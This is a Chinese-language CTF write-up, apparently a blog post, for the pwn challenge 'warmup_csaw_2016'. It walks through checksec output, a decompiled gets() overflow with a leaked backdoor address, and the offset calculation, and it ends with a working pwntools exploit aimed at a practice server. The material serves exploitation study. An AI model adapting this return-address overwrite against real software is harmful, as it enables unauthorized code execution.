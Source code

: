 ```yaml
---
title: warmup_csaw_2016
date: 2022-07-08 12:56:45
permalink: /pages/431447/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

存在溢出函数`gets`，另外通过查找函数表发现后门函数`sub_40060D`

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```



## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过`gets`函数溢出将返回地址修改为该值即可获得`flag`。

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```